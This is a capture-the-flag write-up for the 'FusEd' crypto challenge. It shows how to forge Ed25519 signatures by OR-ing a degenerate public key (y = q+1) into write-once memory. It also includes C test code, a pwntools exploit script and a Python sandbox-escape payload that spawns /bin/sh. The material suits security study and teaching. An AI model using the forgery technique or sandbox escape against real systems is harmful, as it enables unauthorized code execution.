

# Secret
## Chall Author: Nevsor

## Description



Category: Crypto

Difficulty: Medium

Author: Nevsor

First Blood: justCatTheFish

Solved By: justCatTheFish

Programming microcontrollers is too complicated. How about an (emulated) MCU that can directly execute Python code?

Challenge Files: [FusEd.zip](./FusEd.zip/)

<br />

## Analysis

I skimmed through [Dockerfile](./FusEd.zip/Dockerfile) and
[python_svc](./FusEd.zip/python_svc) and didn't Find anything of special
interest.

### Python Code

You should read through [main.py](./FusEd.zip/main.py) and
[mcu.py](./FusEd.zip/mcu.py) to understand the challenge.

In [main.py](./FusEd.zip/main.py) we can see available interactions. We can
create new MCU (MicroController Unit, not Marvel Cinematic Universe, sorry),
flash or dump memory, and run MCU.

Implementation of those operations is in [mcu.py](./FusEd.zip/mcu.py).
MCU has three memory segments. `DYNAMIC_DATA_SEGMENT` will be of no use for the
challenge, so I just skip it going onwards. `PROGRAM_INSTRUCTION_SEGMENT` is a
`Flash` memory and `STATIC_DATA_SEGMENT` is `PROM` memory. The difference
between the two is that writing to `PROM` memory doesn't set bytes, but does a
binary or with the existing value (i.e. we can change bits 0 to 1, but not the
other way around).

"Run MCU" operation just `exec()`s code from `PROGRAM_INSTRUCTION_SEGMENT`. It's
run in a "sandbox" but from other challenges I already know it can be easily
escaped. But looking at the `flash()` I see that writing this segment requires
providing signature. Signature verification reads public key from
`STATIC_DATA_SEGMENT`.

While reading all of the code I also looked whether it is possible to e.g.
overwrite different segment, then the argument to `flash()` method, because
there's `resolve_address()` method which can write any segment, but I didn't
find any bug like that.

So far, we can overwrite public key, but only by binary or-ing it with some other
value. During creation of MCU code writes freshly generated public key there. It
means that we can only change public key to the value we want, if out value has
bit 1 set for every bit 1 set in the existing value. Here's an example (real
values has 32*8 bits)

With such values, we can set our value, because there exist some bits which we
would have to change from 1 to 0:
```
Their value: 1001110010010100
Our value:   1001100001100100
```

But if our value has not to many zeros, there's high change we will be able to
set our value:
```
Their value: 1001110010010100
Our value:   1101111111111110
```
Or-ing "Their value" with our value just yields "Our value".

If we just generate a random keypair than it's virtually impossible that we will
be able to write our public key to memory. Random value has about 50% == 16*8
bits equal to 0 and for every 0 there's a 50% chance that the corresponding bit
in their value is 1. So the chance of this not happening is $`(1/2)^{16\times{}8}`$.
That's probably the same as just clever bruteforcing of the key.  Instead we
should seek for some value with not too many bits set to 0, so our random chance
is reasonably high.

### Curve Math

To further understand the challenge we need two more things. First, we need to
understand a bit about EdDSA. But we only need to know the equations:
[Ed25519](https://en.wikipedia.org/wiki/EdDSA#Ed25519)
Btw. most of the time curves are actually implemented using homogeneous
polynomial (not really needed here, but you might be wondering why the code uses
$x$, $y$, and $z$), so the real equation is:
$$-x^2 z^2 + y^2 z^2 = z^4 - \frac{121665}{121666} x^2 y^2$$

### C Code

Second, we need to skim though the code of
[python-ed25519](https://github.com/warner/python-ed25519/tree/d57b8f2c7edffff3419d58443ccc29a4fa399a71).
You should use some code browser for this. I just used GitHub's builtin one
(only available after logging-in). We're only interesed in how `VerifyingKey()`
and `verify()` methods work. The core implementation of `verify()` is contained
in C code:
[ed25519.c](https://github.com/warner/python-ed25519/blob/d57b8f2c7edffff3419d58443ccc29a4fa399a71/src/ed25519-supercop-ref/ed25519.c#L98-L136)
It's also important to know how public key is parsed from the binary format:
[ge25519.c](https://github.com/warner/python-ed25519/blob/master/src/ed25519-supercop-ref/ge25519.c#L186-L231)
Public key contains just one 255 bit number and one bit for parity. The public
key (point on a curve) is derived by setting $y$ to this number and $z$ to $1$.
$x$ can be calculated but there are two possible solutions, hence parity bit is
used to choose between the two.

## Solution

My idea was to set y value of public key to some value which would make it
possible to calculate signature. And, as mentioned earlier, this value has to
have lots of bits equal to 1. The first great candidate is the value of $q$. This
is the modulus used in the equation so $q == 0$, and $0$ is very sus value. And
it has lots of ones in binary representation as we needed.
```pycon
>>> (2**255-19).to_bytes(32, 'little')
b'\xed\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x7f'
```

### Testing the idea

We need to check what happens if we seed public key to this value. For this we
need to write some C code and compile it. The fast & easy solution for me was to
modify
[test.c](https://github.com/warner/python-ed25519/blob/d57b8f2c7edffff3419d58443ccc29a4fa399a71/src/ed25519-supercop-ref/test.c)
and compile with `make`
([Makefile](https://github.com/warner/python-ed25519/blob/d57b8f2c7edffff3419d58443ccc29a4fa399a71/src/ed25519-supercop-ref/Makefile)
needs to be fixed, left as an exercise for the reader).

Skipping some of my intermediate experiments, and a bit of pain of writing C
code, here's the code I wrote:
```c
#include <stdlib.h>
#include <assert.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include "crypto_sign.h"
#include "sha512.h"
#include "ge25519.h"

static void get_hram(unsigned char *hram, const unsigned char *sm, const unsigned char *pk, unsigned char *playground, unsigned long long smlen)
{
	unsigned long long i;

	for (i =  0;i < 32;++i)    playground[i] = sm[i];
	for (i = 32;i < 64;++i)    playground[i] = pk[i-32];
	for (i = 64;i < smlen;++i) playground[i] = sm[i];

	crypto_hash_sha512(hram,playground,smlen);
}

void die(const char * msg) {
	puts(msg);
	fflush(stdout);
	exit(1);
}

void dump_array_32(const crypto_uint32 *array, size_t size) {
	if (size == 0)
		return;
	for (size_t i = 0; i < size-1; i++) {
		printf("%02X ", array[i]);
	}
	printf("%02X", array[size-1]);
}
void dump_array(const unsigned char *array, size_t size) {
	if (size == 0)
		return;
	for (size_t i = 0; i < size-1; i++) {
		printf("%02X ", array[i]);
	}
	printf("%02X", array[size-1]);
}

#define BYTES (64 + 4)

const unsigned char pk[32] = {237, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 127};
unsigned char m[BYTES];
unsigned char sm[BYTES];
int main() {
	unsigned long long mlen_ = BYTES;
	unsigned long long *mlen = &mlen_;
	unsigned long long smlen = BYTES;

	sm[64] = 'a';
	sm[64+1] = 'b';
	sm[64+2] = 'c';
	sm[64+3] = 'd';

	int i, ret;
	unsigned char t2[32];
	ge25519 get1, get2;
	sc25519 schram, scs;
	unsigned char hram[crypto_hash_sha512_BYTES];

	ret = ge25519_unpackneg_vartime(&get1, pk);
	if (ret != 0)
		die("ge25519_unpackneg_vartime failed");

	get_hram(hram,sm,pk,m,smlen);

	sc25519_from64bytes(&schram, hram);

	sc25519_from32bytes(&scs, sm+32);

	ge25519_double_scalarmult_vartime(&get2, &get1, &schram, &ge25519_base, &scs);
	ge25519_pack(t2, &get2);

	printf("t2 = ");
	dump_array(t2, 32);
	printf("\n");

	ret = crypto_verify_32(sm, t2);
	if (ret != 0)
		die("crypto_verify_32 failed");

	puts("OK");
	return 0;
}
```

The message for which signature is being verified is "abcd".

Compile and run:
```
$ ./test
t2 = 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80
crypto_verify_32 failed
```
Great, now just set `sm[31] = 0x80`.
```
$ ./test
t2 = 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
crypto_verify_32 failed
```

WUT???!?

OK, I just try with $y = q+1$ instead of $y = 1$, $1$ is also sus.
So `pk` becomes:
```
const unsigned char pk[32] = {238, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 127};
```
and remove `sm[31] = 0x80`.
Result:
```
$ ./test
t2 = 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
crypto_verify_32 failed
```

Set `sm[0] = 1`.
```
$ ./test
t2 = 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
OK
```

Yay, we successfully signed the message with our bogus key. The same signature
works for different messages, so it probably works for any message.

We should also make sure it works when called from python in the same way as the
challenge code:
```python3
import ed25519

my_pk = bytes([238, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 127])
signature = bytes([1] + [0]*63)
code = b'print(1+1)'
ed25519.VerifyingKey(my_pk).verify(signature, code)
print('OK')
```

Here's the final C code: [test.c](./test.c)

### Final solution

We can start writing some exploit.
I started with some template for communication:
```python3
#!/usr/bin/env python3

from pwn import *
context.encoding = 'utf8'
context.log_level = 'debug'


host = '9e7c46be84ff68bc91d94d09-1024-fused.challenge.master.camp.allesctf.net'
io = remote(host, 31337, ssl=True)


PROGRAM_INSTRUCTION_SEGMENT = 0
STATIC_DATA_SEGMENT = 1
DYNAMIC_DATA_SEGMENT = 2

def _choice(o):
    io.sendlineafter('5. Exit.\n\nChoice: ', o)

def create_new_mcu():
    _choice('1')

def flash_segment(segment, image, signature=None):
    if signature is None:
        signature = bytes(1)
    else:
        assert len(signature) == 64
    assert len(image) > 0
    assert len(signature) > 0

    _choice('2')
    io.sendlineafter('Segment: ', str(segment))
    io.sendlineafter('Image: ', image.hex())
    io.sendlineafter('Signature: ', signature.hex())

def dump_segment(segment):
    import hexdump
    _choice('3')
    io.sendlineafter('Segment: ', str(segment))
    io.recvuntil('Content: \n')
    return hexdump.restore(io.recvuntilS('\n\nMain menu:', drop=True))

def run_mcu():
    _choice('4')
```

We can now try to write our $q+1$ and check if it worked:
```python3
my_pk = bytes([238, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 127])

while True:
    create_new_mcu()
    their_pk = dump_segment(STATIC_DATA_SEGMENT)[0:32]
    if all(a | b == a for a, b in zip(my_pk, their_pk)):
        print('Got it.')
        break
flash_segment(STATIC_DATA_SEGMENT, my_pk)
assert dump_segment(STATIC_DATA_SEGMENT)[0:32] == my_pk
```
I check whether we can write our key in a loop. Our key has three zeros in it's
binary representation so this can take a few tries.

And now it should be possible to write our own code to
`PROGRAM_INSTRUCTION_SEGMENT` and run it:
```python3
signature = bytes([1] + [0]*63)

code = b'print(1+1)'


flash_segment(PROGRAM_INSTRUCTION_SEGMENT, code, signature)
run_mcu()

io.interactive()
io.close()
```

This fails with "The MCU crashed with error: invalid syntax (<string>, line 1)".
It's probably because we overwrite a prefix of some existing code (just like
aCropalypse, LOL). I decided to pad my code with `#` (comment character):
```python3
code = b'print(1+1)'
code += b'#'*(1024-len(code))
```

We can now write a code that bypasses the sandbox. The one here is trivial,
googling "python escape \_\_builtins\_\_ None" yields some results, but you
might need to read some writeup and adapt the code for the version of python in
the challenge. (Tip: `docker run --rm -it python:3.10.5-slim-buster`)

I used such a payload:
```python3
code = b'''
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'BuiltinImporter'][0]().load_module('os').system('/bin/sh')
'''
```

```
$ cat flag.txt
ALLES!{inspired by the RoT verification of the LPC54S0xx, cf. https://www.nxp.com/docs/en/application-note/AN13390.pdf}
```

Final solve script: [solve.py](./solve.py)

<br />

### Writeup Author: MrQubo
